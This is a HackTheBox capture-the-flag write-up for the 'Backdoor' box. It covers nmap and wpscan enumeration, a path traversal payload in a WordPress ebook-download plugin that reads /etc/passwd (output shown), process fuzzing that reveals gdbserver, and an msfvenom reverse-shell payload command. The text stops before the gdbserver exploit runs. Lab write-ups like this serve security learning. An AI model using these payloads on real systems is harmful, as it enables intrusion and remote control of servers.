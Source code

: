 ### BackDoor HackTheBox

### Difficulty = Easy

### IP Address = 10.10.11.125

Nmap Scan:

```
└─$ nmap -sCV 10.10.11.125 -p22,80,1337 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 18:41 WAT
Nmap scan report for 10.10.11.125
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.99 seconds
```

From the scan only 3 ports are open and nmap couldn't identify the service running on port 1337

#### Web Server Enumeration

Heading over to the web server on port 80 show this 
![image](https://user-images.githubusercontent.com/113513376/221250546-cfc25100-4339-4f57-91c1-a860075e26ae.png)

Its an instance of wordpress and we can confirm by checking wappalyzer or source code
![image](https://user-images.githubusercontent.com/113513376/221250778-0805b402-d9cd-4e84-ac78-801e2020b514.png)

I'll run wpscan on it to enumerate the wordpress cms

```└─$ wpscan --url http://10.10.11.125/ -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.11.125/ [10.10.11.125]
[+] Started: Fri Feb 24 18:45:10 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.11.125/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.11.125/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.11.125/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.11.125/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.1 identified (Insecure, released on 2021-09-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.11.125/index.php/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>
 |  - http://10.10.11.125/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://10.10.11.125/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.11.125/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.11.125/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.8'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==========================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.11.125/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Feb 24 18:45:24 2023
[+] Requests Done: 23
[+] Cached Requests: 36
[+] Data Sent: 6.197 KB
[+] Data Received: 78.631 KB
[+] Memory used: 167.711 MB
[+] Elapsed time: 00:00:14
```

It shows that the only user is `admin` and its version its `5.8.1` which doesn't have an form of vulnerability for an unauthenticated user

I don't want to start password brute force for user admin so firstly i'll run wpscan again but this time enumerate the plugins present

```
Command: wpscan --url http://10.10.11.125/ --plugins-detection aggressive -t100
```

But since `/wp-content/plugins/` has directory listing i'll get the list of plugins there

And it shows only ebook plugin 
![image](https://user-images.githubusercontent.com/113513376/221263510-b9d576a4-e3a0-469f-adb1-37c6a1a71d16.png)

Reading the `readme.txt` file shows it version which is ebook 1.1
![image](https://user-images.githubusercontent.com/113513376/221264671-6166d2bc-acd9-421e-8d1a-fe3226dd0af9.png)

Searching for exploit leads to a directory transversal vulnerability [Exploit](https://www.exploit-db.com/exploits/39575)

#### Exploit

Trying it to read local files works

```
└─$ curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd'           
../../../../../../etc/passwd../../../../../../etc/passwd../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script> 
```

I tried reading files like sshkey but it doesn't work

Now if you remember there's a service running on port 1337

I will fuzz for process in /proc/FUZZ/cmdline

I made a quick script which is dirty but will do the work smh [Fuzz](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/backdoor/fuzz.py)

After running the script eventually it runs finish 

On checking the process.txt file shows lot of thing and some are real process some are not

I edited it to form [this](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/backdoor/process.txt)

Looking at it you will see 

```
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

With this we know that its gdbserver thats running on port 1337

I searched for exploit and got this [Exploit](https://www.exploit-db.com/exploits/50539)

Following what the exploit requires i'll generate a shellcode using msfvenom
![image](https://user-images.githubusercontent.com/113513376/221270425-ea5b86f6-b993-48d2-865f-9fc190f3b47b.png)


```
Command:  msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 PrependFork=true -o rev.bin
```

Now i'll run the exploit


